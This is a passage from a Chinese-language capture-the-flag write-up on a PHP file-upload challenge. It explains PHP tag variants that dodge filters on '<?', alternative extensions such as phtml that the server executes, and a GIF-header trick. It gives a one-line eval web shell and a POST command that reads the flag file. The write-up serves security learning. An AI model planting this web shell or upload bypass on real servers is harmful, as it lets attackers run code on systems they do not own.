    - ```
     标准标签：<?php
     简写标签  <?=    它是 <?php echo 的简写形式,（无需闭合尾巴）
     短标记(<? xxx ?>)，需开启([short_open_tag](https://www.php.net/manual/zh/ini.core.php#ini.short-open-tag)in php.ini)
     asp标签(<%xxx%>)【禁用了<?、 <?php、 ?>时】需开启（asp_tags）
     <script language=php>echo  ‘123’;</script> 这里不存在<?，可以绕过正则对<? ,<?php，asp的限制
     注意⚠️php>7废除了asp标签和script标签
     ```

4. 成功上传shell.jpg，但怎么让他解析呢?此法不行，后面上传.htaccess也不行，必须内容是图片开头，说明还是后缀解析问题
5. <span style="background:#bbffff;">**默认后缀php解析**</span>

```
⚠默认后缀解析
    phtml、pht、php3、php4和php5都是Apache和php认可的php程序的文件后缀
php2, php3, php4, php5, phps, pht, phtm, phtml
```

修改后缀php2，php3.。都不行

**修改上传文件的类型为phtml，只有这样才能使网页后端执行我们的一句话木马**

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220213230412016.png" alt="image-20220213230412016" style="zoom:67%;" />



精简版：

**这题的绕过点有三个，一个就是文件内容不能有<?，还有就是文件后缀的绕过，还有图片头。**

```
GIF89a? <script language="php">eval($_POST[c])</script>
```

还有一个问题就是**上传之后的文件在哪**。**<span style="background:#FF9999;">猜测还是常规的目录/upload下面</span>**

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220213230719900.png" alt="image-20220213230719900" style="zoom:50%;" />

访问11.phtml失败，说明位置不对，GET访问upload/11.phtml成功，显示图片源码

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220213224630667.png" alt="image-20220213224630667" style="zoom: 50%;" />

POST访问，成功

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220213224720182.png" alt="image-20220213224720182" style="zoom: 50%;" />

payload：POST：upload/11.phtml，POST：

```
c=echo `cat /flag`;
```





## [ACTF2020 新生赛]Upload

### 考点：php常见后缀解析绕过
